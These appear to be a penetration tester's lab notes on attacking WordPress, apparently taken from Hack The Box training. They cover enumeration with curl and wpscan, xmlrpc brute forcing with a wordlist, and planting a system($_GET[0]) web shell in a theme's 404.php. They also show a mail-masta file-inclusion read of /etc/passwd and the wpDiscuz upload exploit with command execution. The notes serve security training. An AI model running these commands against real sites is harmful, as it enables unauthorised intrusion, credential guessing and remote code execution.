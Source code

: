 ## Info

```
L3pr3ch4un@htb[/htb]$ tree -L 1 /var/www/html
.
├── index.php
├── license.txt
├── readme.html
├── wp-activate.php
├── wp-admin
├── wp-blog-header.php
├── wp-comments-post.php
├── wp-config.php
├── wp-config-sample.php
├── wp-content
├── wp-cron.php
├── wp-includes
├── wp-links-opml.php
├── wp-load.php
├── wp-login.php
├── wp-mail.php
├── wp-settings.php
├── wp-signup.php
├── wp-trackback.php
└── xmlrpc.php
```

| File/Directory | Description |
| --- | --- |
| index.php | Homepage of WordPress. |
| license.txt | Contains useful information such as the version of WordPress installed. |
| wp-activate.php | Used for the email activation process when setting up a new WordPress site. |
| wp-admin | Folder containing the login page for administrator access and the backend dashboard. Login paths: /wp-admin/login.php, /wp-admin/wp-login.php, /login.php, /wp-login.php. This file can be renamed for security. |
| xmlrpc.php | File representing a feature of WordPress that enables data transmission using HTTP and XML. Replaced by the WordPress REST API. |
| wp-config.php | Configuration file containing database connection details, authentication keys, salts, and other settings. Can activate DEBUG mode for troubleshooting. |
| wp-content | Main directory for storing plugins and themes. The uploads/ subdirectory typically stores uploaded files. |
| wp-includes | Directory containing core files such as certificates, fonts, JavaScript files, and widgets. Excludes administrative components and themes. |

| Role | Description |
| --- | --- |
| Administrator | This user has access to administrative features within the website. This includes adding and deleting users and posts, as well as editing source code. |
| Editor | An editor can publish and manage posts, including the posts of other users. |
| Author | Authors can publish and manage their own posts. |
| Contributor | These users can write and manage their own posts but cannot publish them. |
| Subscriber | These are normal users who can browse posts and edit their profiles. |




## Enumeration 

**Version Fingerprinting**

`L3pr3ch4un@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com | grep '<meta name="generator"'`

```
# Search for JavaScript files with version parameters
curl -s https://your-wordpress-site.com | grep -Eo 'src="[^"]+\.js\?ver=[^"]+"'

# Search for CSS files with version parameters
curl -s https://your-wordpress-site.com | grep -Eo 'href="[^"]+\.css\?ver=[^"]+"'
```

**Themes and Plugins**

`L3pr3ch4un@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2`

`L3pr3ch4un@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2`

`L3pr3ch4un@htb[/htb]$ curl -I -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta`

If the content does not exist, we will receive a 404 Not Found error.

**Directory indexing**

`L3pr3ch4un@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta/ | html2text`





**Wpscan**

`L3pr3ch4un@htb[/htb]$ sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>`

**Xmlrpc**
`[!bash!]$ curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://blog.inlanefreight.com/xmlrpc.php`


**Enumerate Users**

`L3pr3ch4un@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php`

`wpscan –url http://example.com –enumerate u`
Api:*/wp-json/wp/v2/users*

**Password Brute force**

`L3pr3ch4un@htb[/htb]$ sudo wpscan --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt --url http://94.237.62.195:37110`

**Code Execution**

**Note: Use Alternative theme like  Twenty Nineteen**

`Appearence`>`Theme Editor`>`404.php`>`system($_GET[0]);`

```
L3pr3ch4un@htb[/htb]$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```
`msf6 > use exploit/unix/webapp/wp_admin_shell_upload`

## Vulnerabilities

**Note:** We can use the waybackurls tool to look for older versions of a target site using the Wayback Machine. Sometimes we may find a previous version of a WordPress site using a plugin that has a known vulnerability. If the plugin is no longer in use but the developers did not remove it properly, we may still be able to access the directory it is stored in and exploit a flaw.

**Vulnerable Plugins - mail-masta**

`L3pr3ch4un@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

**Vulnerable Plugins - wpDiscuz**

`version number (7.0.4)`

https://www.exploit-db.com/exploits/49967

`L3pr3ch4un@htb[/htb]$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1`

`L3pr3ch4un@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id`

